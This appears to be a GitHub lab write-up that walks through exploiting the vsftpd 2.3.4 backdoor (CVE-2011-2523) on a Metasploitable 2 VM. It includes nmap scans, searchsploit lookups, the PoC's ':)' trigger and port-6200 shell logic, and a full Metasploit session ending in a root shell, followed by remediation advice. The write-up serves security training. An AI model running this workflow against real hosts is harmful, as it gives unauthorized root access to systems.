










# CVE-2011-2523 — vsftpd 2.3.4 Backdoor Exploitation Lab

## Overview

This project demonstrates the identification, analysis, and controlled exploitation of the vsftpd 2.3.4 backdoor vulnerability associated with CVE-2011-2523.

The assessment was performed in an isolated VMware lab using Kali Linux as the attacking system and Metasploitable 2 as the intentionally vulnerable target.

The objective was to follow a complete vulnerability assessment workflow:

**Host Discovery → Port Scanning → Service Enumeration → Vulnerability Research → PoC Analysis → Exploitation → Verification → Remediation**

> **Disclaimer:** This project was performed exclusively in an isolated lab environment against an intentionally vulnerable virtual machine. The techniques documented here should only be used against systems you own or have explicit authorization to test.

---

## Lab Environment

| System           | Purpose           | IP Address   |
| ---------------- | ----------------- | ------------ |
| Kali Linux       | Attacker          | 172.16.1.128 |
| Metasploitable 2 | Vulnerable Target | 172.16.1.131 |

The systems were connected using a VMware Host-Only network to keep the vulnerable target isolated from external networks.

---

## 1. Host Discovery

The first step was verifying whether the target was reachable.

```bash
nmap -sn 172.16.1.131
```

Nmap reported the target as active:

```text
Nmap scan report for 172.16.1.131
Host is up.
```

This confirmed network connectivity between Kali Linux and the target.



---

## 2. TCP Port Discovery

A scan of all TCP ports was performed:

```bash
nmap -p- 172.16.1.131
```

Multiple services were exposed, including:

```text
21/tcp    open  ftp
22/tcp    open  ssh
23/tcp    open  telnet
25/tcp    open  smtp
53/tcp    open  domain
80/tcp    open  http
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3306/tcp  open  mysql
5432/tcp  open  postgresql
6667/tcp  open  irc
8180/tcp  open  unknown
```

The number of exposed services indicated a significant attack surface requiring further enumeration.



---

## 3. Service and Version Enumeration

Service version detection was performed with:

```bash
nmap -sV 172.16.1.131
```

One notable result was:

```text
21/tcp open ftp vsftpd 2.3.4
```

This provided three important pieces of information:

* Port: TCP/21
* Service: FTP
* Software/version: vsftpd 2.3.4

The exact version could therefore be researched for publicly documented vulnerabilities.



---

## 4. Vulnerability Research

SearchSploit was used to search the local Exploit Database:

```bash
searchsploit vsftpd 2.3.4
```

Two relevant results were identified:

```text
vsftpd 2.3.4 - Backdoor Command Execution
unix/remote/49757.py

vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)
unix/remote/17491.rb
```

Additional inspection mapped the vulnerability to:

```text
CVE-2011-2523
```






### Vulnerability

CVE-2011-2523 relates to a malicious backdoor that was introduced into a compromised distribution of vsftpd 2.3.4.

This distinction is important: the issue was not simply a normal coding defect in the legitimate application. A compromised version of the software distribution contained malicious backdoor functionality.

---

## 5. Proof-of-Concept Analysis

The standalone Python PoC was inspected before execution:

```bash
searchsploit -x 49757
```

The exploit contained the following important logic:

```python
user="USER nergal:)"
password="PASS pass"
```

The unusual `:)` sequence in the FTP username is used to trigger the malicious functionality in the compromised vsftpd build.



The exploit initially communicates with:

```text
TCP/21
```

After triggering the backdoor, the PoC attempts another connection:

```python
tn2=Telnet(host, 6200)
```

This indicates that successful triggering of the backdoor should result in a command shell becoming accessible over TCP port 6200.

The expected behavior was therefore:

```text
FTP connection to TCP/21
        |
        v
Special USER value containing :)
        |
        v
Backdoor triggered
        |
        v
TCP/6200 becomes available
        |
        v
Command shell
```

---

## 6. Establishing a Baseline

Before attempting exploitation, TCP port 6200 was checked:

```bash
nmap -p 6200 172.16.1.131
```

Result:

```text
PORT      STATE   SERVICE
6200/tcp  closed  lm-x
```

Therefore, prior to exploitation:

```text
21/tcp    OPEN
6200/tcp  CLOSED
```

This provided a baseline against which the behavior of the exploit could be compared.



---

## 7. PoC Compatibility Issue

The standalone PoC was copied locally:

```bash
searchsploit -m 49757
```



Execution was attempted using:

```bash
python3 49757.py 172.16.1.131
```

However, the script failed with:

```text
ModuleNotFoundError: No module named 'telnetlib'
```

The Kali system was running:

```text
Python 3.13.12
```

The PoC relied on Python's `telnetlib` module, which is no longer part of the Python standard library in Python 3.13.

Rather than modifying the original PoC, an alternative implementation of the same vulnerability was investigated using Metasploit.

---

## 8. Metasploit Module Identification

Metasploit Framework was started:

```bash
msfconsole
```

The available vsftpd modules were searched:

```text
search vsftpd
```

The following module was identified:

```text
exploit/unix/ftp/vsftpd_234_backdoor
```

The module information and required parameters were reviewed before execution:

```text
info
show options
```

The target configuration was:

```text
RHOSTS = 172.16.1.131
RPORT  = 21
```

The RPORT value corresponded directly to the FTP service previously identified during Nmap enumeration.

---

## 9. Controlled Exploitation

The target was configured:

```text
set RHOSTS 172.16.1.131
```

The module was then executed in the isolated lab.

Metasploit reported:

```text
Backdoor service has been spawned, handling ...
UID: uid=0(root) gid=0(root)
Found shell.
Command shell session opened
```

The session connected to the target over TCP port 6200.

```text
──(kali㉿kali)-[~]
└─$ msfconsole
Metasploit tip: Use the analyze command to suggest runnable modules for 
hosts
                                                  
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%     %%%         %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%                                                                                                                                                                                
%%  %%  %%%%%%%%   %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%                                                                                                                                                                                
%%  %  %%%%%%%%   %%%%%%%%%%% https://metasploit.com %%%%%%%%%%%%%%%%%%%%%%%%                                                                                                                                                                                
%%  %%  %%%%%%   %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%                                                                                                                                                                                
%%  %%%%%%%%%   %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%                                                                                                                                                                                
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%                                                                                                                                                                                
%%%%%  %%%  %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%                                                                                                                                                                                
%%%%    %%   %%%%%%%%%%%  %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%  %%%  %%%%%                                                                                                                                                                                
%%%%  %%  %%  %      %%      %%    %%%%%      %    %%%%  %%   %%%%%%       %%                                                                                                                                                                                
%%%%  %%  %%  %  %%% %%%%  %%%%  %%  %%%%  %%%%  %% %%  %% %%% %%  %%%  %%%%%                                                                                                                                                                                
%%%%  %%%%%%  %%   %%%%%%   %%%%  %%%  %%%%  %%    %%  %%% %%% %%   %%  %%%%%                                                                                                                                                                                
%%%%%%%%%%%% %%%%     %%%%%    %%  %%   %    %%  %%%%  %%%%   %%%   %%%     %                                                                                                                                                                                
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%  %%%%%%% %%%%%%%%%%%%%%                                                                                                                                                                                
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%          %%%%%%%%%%%%%%                                                                                                                                                                                
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%                                                                                                                                                                                
                                                                                                                                                                                                                                                             

       =[ metasploit v6.4.56-dev                          ]
+ -- --=[ 2505 exploits - 1291 auxiliary - 431 post       ]
+ -- --=[ 1610 payloads - 49 encoders - 13 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

msf6 > search vsftpd

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  auxiliary/dos/ftp/vsftpd_232          2011-02-03       normal     Yes    VSFTPD 2.3.2 Denial of Service
   1  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


Interact with a module by name or index. For example info 1, use 1 or use exploit/unix/ftp/vsftpd_234_backdoor

msf6 > use 1
[*] No payload configured, defaulting to cmd/unix/interact
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > info

       Name: VSFTPD v2.3.4 Backdoor Command Execution
     Module: exploit/unix/ftp/vsftpd_234_backdoor
   Platform: Unix
       Arch: cmd
 Privileged: Yes
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2011-07-03

Provided by:
  hdm <x@hdm.io>
  MC <mc@metasploit.com>

Available targets:
      Id  Name
      --  ----
  =>  0   Automatic

Check supported:
  No

Basic options:
  Name    Current Setting  Required  Description
  ----    ---------------  --------  -----------
  RHOSTS                   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
  RPORT   21               yes       The target port (TCP)

Payload information:
  Space: 2000
  Avoid: 0 characters

Description:
  This module exploits a malicious backdoor that was added to the       VSFTPD download
  archive. This backdoor was introduced into the vsftpd-2.3.4.tar.gz archive between
  June 30th 2011 and July 1st 2011 according to the most recent information
  available. This backdoor was removed on July 3rd 2011.

References:
  OSVDB (73573)
  http://pastebin.com/AetT9sS5
  http://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html


View the full module info with the info -d command.

msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT   21               yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic


View the full module info with the info, or info -d command.

msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 172.16.1.131
RHOSTS => 172.16.1.131
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  172.16.1.131     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT   21               yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic


View the full module info with the info, or info -d command.
```

---

## 10. Access Verification

Access was independently verified rather than relying solely on Metasploit's success message.

```bash
whoami
```

Result:

```text
root
```

The current identity was then inspected:

```bash
id
```

Result:

```text
uid=0(root) gid=0(root)
```

The target was also identified as:

```text
metasploitable
```

This confirmed successful remote command execution with root privileges on the intended target.



---

## 11. Before/After Verification

A second TCP/6200 scan was performed after exploitation:

```bash
nmap -p 6200 172.16.1.131
```

The result changed to:

```text
PORT      STATE  SERVICE
6200/tcp  open   lm-x
```



Therefore:

| State               | TCP/21 | TCP/6200 |
| ------------------- | ------ | -------- |
| Before exploitation | Open   | Closed   |
| After exploitation  | Open   | Open     |

This behavior corresponded with the logic identified during analysis of the standalone Python PoC.

The observed sequence was:

```text
vsftpd 2.3.4 on TCP/21
          |
          v
Backdoor trigger
          |
          v
TCP/6200 opened
          |
          v
Command shell established
          |
          v
uid=0(root)
```

---

## Impact

Successful exploitation provides unauthenticated remote command execution with root privileges.

An attacker capable of reaching the vulnerable FTP service could potentially gain complete control of the affected host.

Potential consequences include:

* Complete system compromise
* Unauthorized access to files and services
* Modification or destruction of data
* Credential theft
* Installation of additional malicious software
* Use of the compromised host for further attacks

Because the resulting shell executes as UID 0, the compromise effectively provides full administrative control over the affected system.

---

## Remediation

Systems should not use the compromised vsftpd 2.3.4 distribution associated with this vulnerability.

Recommended defensive actions include:

* Remove the affected software immediately.
* Install a trusted and supported version from a verified package repository.
* Verify package integrity and software provenance.
* Restrict unnecessary FTP exposure through firewall rules.
* Disable services that are not operationally required.
* Monitor unexpected listening ports and network connections.
* Investigate affected systems for evidence of compromise rather than assuming that upgrading alone removes an existing compromise.

---

## Key Takeaways

This lab demonstrated that exploitation should not begin with blindly selecting a Metasploit module.

The vulnerability was identified through a structured process:

```text
Target
  ↓
Host Discovery
  ↓
Port Discovery
  ↓
Service Enumeration
  ↓
Version Identification
  ↓
Vulnerability Research
  ↓
CVE Identification
  ↓
PoC Analysis
  ↓
Baseline Verification
  ↓
Controlled Exploitation
  ↓
Privilege Verification
  ↓
Post-Exploitation Validation
```

Analyzing the standalone PoC before using Metasploit also made it possible to predict that TCP port 6200 would become accessible after the backdoor was triggered.

The lab additionally demonstrated a common real-world challenge: publicly available PoCs may depend on outdated libraries or environments. In this case, the Python PoC depended on `telnetlib`, while the testing environment used Python 3.13.

---

## Tools Used

* Kali Linux
* Metasploitable 2
* VMware
* Nmap
* SearchSploit / Exploit-DB
* Metasploit Framework
* Python

---

## References

* CVE-2011-2523
* Exploit-DB 49757
* Metasploit `exploit/unix/ftp/vsftpd_234_backdoor`

---

## Disclaimer

This project was conducted in an isolated lab environment using Metasploitable 2, an intentionally vulnerable virtual machine designed for security training.

The techniques described in this repository should only be performed against systems you own or systems for which you have explicit authorization to conduct security testing.
